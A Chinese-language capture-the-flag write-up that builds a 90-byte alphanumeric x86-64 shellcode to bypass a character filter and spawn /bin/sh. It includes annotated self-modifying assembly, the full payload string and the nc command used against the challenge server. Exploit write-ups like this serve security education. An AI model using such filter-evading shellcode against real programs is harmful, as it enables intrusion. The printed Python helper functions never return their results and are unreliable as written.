 # W2 shellcode revenge

## 文件分析

下载`shellcodere`, 保护全开  
ghidra分析为64位程序

## 解题思路

程序将shellcode读到0x66660000处，并过滤掉所有非大写字母和数字  
这真的是新生赛吗！搓了我好几天

## 准备

先检查寄存器的值都为多少  
![reg_values](../assets/regs.png)

xor主要使用rbx，要清空它；rax和rdx都有特定值要存放，所以用rcx来存基址；
`pop rdi`, `pop rsi`都要搓出来，还有0x3b和sh字符串

程序布局：在可使用的范围内，前段为程序，后端为数据

以下是按字符反汇编解析

## Shellcode分析

```as
exec:
push rdx                         ; R
pop  rcx                         ; Y set base addr
xor  qword ptr [rcx + 0x5a], rbx ; H1YZ
xor  rbx, qword ptr [rcx + 0x5a] ; H3YZ zero out rbx
xor  bl, byte ptr [rcx + 0x49]   ; 2YI xor pivot 1
xor  byte ptr [rcx + 0x4a], bl   ; 0YJ
xor  byte ptr [rcx + 0x4e], bl   ; 0YN 2* 48 -> 1a
xor  byte ptr [rcx + 0x51], bl   ; 0YQ
xor  byte ptr [rcx + 0x59], bl   ; 0YY 2* zero out last byte
xor  bl, byte ptr [rcx + 0x49]   ; 2YI zero out bl
xor  rbx, qword ptr [rcx + 0x4a] ; H3YJ set rbx value
xor  rbx, qword ptr [rcx + 0x52] ; H3YR xor to get /bin/sh
push rbx                         ; S
push rsp                         ; T point to /bin/sh
;now bl is 2f
xor  bl, byte ptr [rcx + 0x4b]   ; 2YK xor pivot 2
xor  byte ptr [rcx + 0x38], bl   ; 0Y8 make 0x5e
push rdi                         ; W
pop  rdx                         ; Z zero out rdx
xor  byte ptr [rcx + 0x39], bl   ; 0Y9 make 0x5f
xor  al, 0x4f                    ; 4O
xor  al, 0x44                    ; 4D
xor  al, 0x30                    ; 40 make al equals to 0x3b
push rdi                         ; W
pop rsi                          ; G is xored by 0Y8; zero out rsi
pop rdi                          ; F is xored by 0Y9; point to /bin/sh
;now bl is 19
xor bl, byte ptr [rcx + 0x54]    ; 2YT xor pivot 3
xor byte ptr [rcx + 0x43], bl    ; 0YC make 0x0f
xor byte ptr [rcx + 0x44], bl    ; 0YD make 0x05
syscall                          ; OE is xored by 0YC0YD
```

```
data section:
rcx + 'E': 000 ; just padding; shrink it to get a shorter shellcode
rcx + 'H': 3   ; xor pivot 2
rcx + 'I': R   ; xor pivot 1
rcx + 'J': H607H60R ; xor part 1
rcx + 'R': 5TYY5EXR ; xor part 2
rcx + 'Z': \0  ; store rbx later
```

最后shellcode长度：**90字节**
## 踩过的坑

1. gdb在调试shellcode的时候建议用si，ni会直接运行到底
2. 网上资料可能不全，需要自己摸索，比如'40'就是自己反汇编才知道的
3. 字符间换来换去还挺麻烦的，用用下面的函数

```python
def toHex(s: str):
    ret = ''
    for c in s:
        ret += hex(ord(c))[2:]

def toChr(s: str):
    ret = ''
    for i in range(0, len(s), 2):
        ret += chr(int(s[i:i+2], 16))
```
## EXPLOIT

`nc node4.buuoj.cn 28975`

*RYH1YZH3YZ2YI0YJ0YN0YQ0YY2YIH3YJH3YRST2YK0Y8WZ0Y94O4D40WGF2YT0YC0YDOE0003RH607H60R5TYY5EXR*  
*cat flag*

## 参考资料

[short shellcode](https://blog.csdn.net/A951860555/article/details/110936441)  
[alphanumeric shellcode编写指南](https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf)  
[在线汇编/反汇编器](http://shell-storm.org/online/Online-Assembler-and-Disassembler/)  
[好用的在线异或](http://i.goto327.top:85/Tools1/XOR.aspx)

Done.
